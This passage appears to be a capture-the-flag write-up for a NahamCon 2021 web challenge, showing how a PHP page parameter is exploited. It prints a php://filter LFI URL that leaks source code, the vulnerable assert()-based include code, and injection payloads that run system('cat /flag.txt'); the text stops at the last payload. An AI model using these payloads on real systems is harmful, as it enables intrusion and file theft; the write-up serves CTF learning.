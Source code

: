```

Well... It's not only about page, but the schedule page also has that parameter. Seems like it depends where you are coming from, i.e. if you are on index, the schedule URL is _http://challenge.nahamcon.com:31132/index.php?page=schedule_ but from gallery for example we have this URL _http://challenge.nahamcon.com:31132/schedule.php_. On the about page we have this not found...

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/1_about.png" width="70%"/>
</p>

Let's try some LFI attacks...

Using [RFI/LFI payloadbox](https://github.com/payloadbox/rfi-lfi-payload-list) GitHub repo we end up using PHP wrappers to encode the index website and retrieve it.

_http://challenge.nahamcon.com:31132/index.php?page=php://filter/convert.base64-encode/resource=index_

<p align="center">
  <img src="/images/writeups/NahamCTF2021/Web/1_lfi.png" width="70%"/>
</p>

Decoding the payload we get:

{% highlight php %}
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");
  
} else {
  $file = "home.php";
}

include($file);

?>
{% endhighlight %}

We could use an [expoit from assert function](https://hydrasky.com/network-security/php-assert-vulnerable-to-local-file-inclusion/) to retrieve the flag. Since we know that the flag is in /flag.txt:


``` ', 'qwer') ===false && strlen(file_get_contents('/flag.txt')) == 0 && strpos('1 ```

We crafted the following payload and [encode it](https://www.urlencoder.org/)

```
','sup') ===false && system('cat /flag.txt') && strops('
